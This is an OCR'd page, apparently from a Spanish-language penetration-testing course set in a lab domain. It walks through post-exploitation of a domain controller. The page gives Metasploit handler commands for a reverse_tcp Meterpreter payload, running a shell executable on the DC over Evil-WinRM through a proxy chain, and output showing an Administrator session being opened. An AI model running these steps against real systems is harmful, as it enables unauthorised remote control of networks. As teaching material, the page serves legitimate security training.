   Después de la explotación

```shell-session
(Meterpreter 1)(/root) > bg
[*] Backgrounding session 1...
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) >>
```

Comience otro múltiple/controlador en la misma sesión de MSFConsole para atrapar el caparazón del DC.

  Después de la explotación

```shell-session
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lport 8443
lport => 8443
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit
```

Ejecute la carga útil en el DC y, si todo va según lo planeado, la atraparemos en nuestro controlador.

  Después de la explotación

```shell-session
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\dc_shell.exe
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
```

Comprobando nuestro controlador y vemos la conexión entrante. Parece provenir de 0.0.0.0 porque nuestro conjunto de reglas de reenvío de puertos anteriormente ha especificado que todo el tráfico destinado a nuestro host en el puerto 1234 debe dirigirse a (nuestro oyente) en el puerto 8443.

  Después de la explotación

```shell-session
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:8443 
[*] Sending stage (200262 bytes) to 10.10.14.15
[*] Meterpreter session 2 opened (10.10.14.15:8443 -> 10.10.14.15:46313 ) at 2022-06-22 21:36:20 -0400

(Meterpreter 2)(C:\) > getuid
Server username: INLANEFREIGHT\Administrator
(Meterpreter 2)(C:\) > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 3
Meterpreter     : x64/windows
```
